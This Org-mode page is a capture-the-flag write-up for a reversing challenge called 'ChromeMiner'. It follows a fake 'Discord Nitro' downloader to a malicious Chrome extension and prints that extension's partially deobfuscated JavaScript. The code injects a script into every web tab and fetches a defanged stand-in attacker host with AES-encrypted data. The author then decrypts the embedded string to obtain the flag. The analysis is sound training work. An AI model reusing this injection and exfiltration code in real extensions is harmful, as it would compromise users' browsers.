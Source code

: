 #+TITLE: ChromeMiner
#+AUTHOR: AsmArtisan256
#+DATE: 01-02-2025

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: chromeminer

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT

#+TOC: headlines 2

#+BEGIN_EXPORT html
<p class="spacing-64" \>
#+END_EXPORT


This reversing challenge starts with a website that you can access after
starting the instance. Nothing on the web page works, but if you check the page
source, you can find a link to an =exe= file:
~href="/static/nitro/DiscurdNitru.exe"~. If you open it in IDA Pro, you can see
it's an extremely simple program that downloads a =ZIP= file extracts it to a
directory and runs it. One of the strings has the path for the =ZIP= file:
~/c2VjcmV0/archive.zip?k=ZGlzY3VyZG5~.

After downloading the file and extracting the contents, there is a =JavaScript=
file that is obviously obfuscated. It contains two gigantic lists with bytes
that can be turned into plain text strings, being that the first step to
deobfuscate the file. After understanding what each element of both lists
represent, its as easy as using your Web Browser console to decode all the
string concatenation happening and the partially (and decently) deobfuscated
file will look like this:

#+BEGIN_SRC javascript
async function iF() {
  if (!("injected" in document)) {
    document["injected"] = true;
    window["setInterval"](async () => {
      y = new window["Uint8Array"](64);
      window["crypto"]["getRandomValues"](y);
      if (new window["TextDecoder"]("utf-8")["decode"](
              await window["crypto"]["subtle"]["digest"](
                  "sha-256", y))["endsWith"]("chrome")) {
        j = new window["Uint8Array"](
            y["ByteLength"] + (await window["crypto"]["subtle"]["digest"](
                                  "sha-256", y))["byteLength"]);
        j["set"](new window["Uint8Array"](y), 0);
        j["set"](new window["Uint8Array"](
                     await window["crypto"]["subtle"]["digest"]("sha-256", y)),
                 y["byteLength"]);
        window["fetch"](
            "hxxps://qwertzuiop123.evil/" +
            [...new window["Uint8Array"](
                await window["crypto"]["subtle"]["encrypt"](
                    {
                      ["name"] : "AES-CBC",
                      ["iv"] : new window["TextEncoder"]("utf-8")["encode"](
                          "_NOT_THE_SECRET_")
                    },
                    await window["crypto"]["subtle"]["importKey"](
                        "raw",
                        await window["crypto"]["subtle"]["decrypt"](
                            {
                              ["name"] : "AES-CBC",
                              ["iv"] :
                                  new window["TextEncoder"]("utf-8")["encode"](
                                      "_NOT_THE_SECRET_")
                            },
                            await window["crypto"]["subtle"]["importKey"](
                                "raw",
                                new window["TextEncoder"]("utf-8")["encode"](
                                    "_NOT_THE_SECRET_"),
                                {["name"] : "AES-CBC"}, true, [ "decrypt" ]),
                            new window["Uint8Array"]((
                                "E242E64261D21969F65F954900A995209099FB6C3C682C0D9C4B275B1C212BC188E0882B6BE72C749211241187FA8")
                                                         ["match"](
                                                             /../g)["map"](
                                                             h => window
                                                                 ["parseInt"](
                                                                     h, 16)))),
                        {["name"] : "AES-CBC"}, true, [ "encrypt" ]),
                    j)) ]["map"](
                x => x["toString"](16)["padStart"](2, "0"))["join"](""));
      }
    }, 1);
  }
};

chrome["tabs"]["onUpdated"]["addListener"]((tabVar, changeInfo, tab) => {
  if ("url" in tab && tab["url"] != null &&
      (tab["url"]["startsWith"]("https://") ||
       tab["url"]["startsWith"]("http://"))) {
    chrome["scripting"]["executeScript"](
        {["target"] : {["tabId"] : tab["id"]}, function : iF});
  }
});
#+END_SRC

So, summarizing what this probably does when running: if you open a tab, it
checks if the tab has a valid URL opened, and it will execute some kind of code
that periodically generates a value, hashes it using =SHA-256= and verifies if the
last set of characters spells "chrome". It also uses =AES-CBC= to encrypt and
decrypt whatever, using the same =key= and =iv=: =_NOT_THE_SECRET_=. The encrypted
string is
=E242E64261D21969F65F954900A995209099FB6C3C682C0D9C4B275B1C212BC188E0882B6BE72C749211241187FA8=,
and the goal is to decrypt it using =AES-CBC= using the =key= and =iv= mentioned. You
can do this in Python or even use any web tool and you will get the flag!


* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">01-02-2025</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT
